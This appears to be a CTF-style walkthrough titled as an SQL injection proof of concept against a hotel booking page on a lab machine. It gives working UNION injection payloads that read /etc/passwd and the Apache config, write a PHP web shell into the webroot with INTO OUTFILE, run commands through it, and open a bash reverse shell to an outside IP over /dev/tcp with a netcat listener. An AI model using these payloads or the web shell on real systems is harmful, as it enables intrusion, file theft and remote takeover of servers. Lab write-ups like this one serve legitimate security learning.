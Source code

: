 # SQL Injection PoC

#### Union Attacks until RCE PoC

```
/room.php?cod=1'-- -
```
```
/room.php?cod=1 order by 1
```

increment it by 1 until it breaks the query again --> the last iteration where 
the query still returns provides u with how many columns are being queried by the default sql query of the application

Use union based queries in order to find the injectable columns.

```
/room.php?cod=0 union select 1,2,3,4,5,6,7
```

2,3,4 & 5 are injectable.

Let's enumerate which db & user is running on the query.

```
/room.php?cod=0 union select 1,database(),user(),4,5,6,7
```

##### Writable Directory

There is an sql function which allows us to view files called load_file()

```
/room.php?cod=0 union select 1,load_file('/etc/passwd'),3,4,5,6,7
```

Now that we know that we can view files using the load_file function, let's enumerate where the webroot is stored in the apache2 server

/etc/apache2/sites-enabled/000-default.conf usually displays where the webroot is specified. So let's view this file.

```
/room.php?cod=0 union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6,7
```

Loading files of /etc/passwd in an file on webroot directory (var/www/html)

```
/room.php?cod=0 union select 1,load_file('/etc/passwd'),3,4,5,6,7
```

There is an functionality in MySQL called INTO OUTFILE which allows us to outfile the content into an different file which were loaded by load_file.

```
/room.php?cod=-1 union select 1,load_file('/etc/passwd'),3,4,5,6,7 into outfile '/var/www/html/hacked.txt'
```


It worked, we can write in /var/www/html, now we can utilize creating an webshell in order to get foothold of the target server.

```
/room.php?cod=1 union select 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
```

We get the following output when sending an POST request to /pwned.php, which means the exec parameter we created actually works. We can now execute commands on the server.

```
curl -X POST http://supersecurehotel.htb/pwned.php --data-urlencode exec=whoami
1       www-data
        3       4       5       6       7
```

Embedded my rev shell script into exec parameter and started up my listener using netcat on port 1337.

```
curl -X POST http://supersecurehotel.htb/pwned.php --data-urlencode 'exec=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.186/1337 0>&1"'
```
```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.186] from (UNKNOWN) [10.129.229.137] 33880
bash: cannot set terminal process group (608): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$
```


